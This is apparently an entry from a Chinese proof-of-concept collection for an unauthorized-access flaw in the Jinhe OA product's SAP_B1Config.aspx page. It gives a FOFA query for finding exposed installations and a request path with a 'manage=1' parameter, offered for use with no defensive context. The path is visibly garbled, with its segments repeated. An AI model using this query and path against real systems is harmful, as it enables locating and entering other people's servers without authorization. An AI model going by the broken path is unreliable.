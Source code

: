## 金和OA_SAP_B1Config.aspx未授权访问漏洞

## fofa
```
app="金和网络-金和OA"
```

## poc
```
/C6/JHsoft./C6/JHsoft.CostEAI/SAP_B1Config.aspx/?manage=1CostEAI/SAP_B1Config.aspx/?manage=1
```

![image](../../images/1f939923-f6bc-4a8f-9a00-8b0fc549a2c7.png)
